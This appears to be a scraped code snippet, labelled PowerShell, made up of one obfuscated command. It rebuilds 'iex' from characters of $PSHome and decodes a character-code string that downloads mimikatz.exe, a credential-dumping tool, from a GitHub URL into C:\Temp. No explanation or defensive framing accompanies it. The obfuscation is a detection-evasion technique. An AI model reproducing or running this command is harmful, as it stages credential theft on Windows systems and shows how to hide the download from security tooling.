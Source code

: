 # code-powershell
 &( $pShOMe[4]+$pShomE[34]+'X')( ( '40f78H101a119s45%79%98H106s101%99a116G32s83%121;115f116k101k109I46a78H101,116I46;87G101;98f67I108I105,101;110a116s41;46s68s111k119f110H108f111;97%100H70a105I108s101k40%34%104a116%116%112k115H58H47%47%103,105;116%104f117a98f46G99G111G109k47;80G97,114H114f111I116H83%101G99,47%109,105H109%105I107k97a116s122k47;98s108I111%98;47s109%97,115,116s101a114s47k87s105k110s51a50s47%109a105a109;105k107,97H116;122H46a101,120G101H34,44H32;34G67f58k92G84;101I109,112G92f109H105I109f105;107,97%116%122G46H101f120H101f34f41'.spLIt( 'I%fsHak,;G')|% { ( [iNt]$_ -as [CHaR]) } )-JOIn '' )
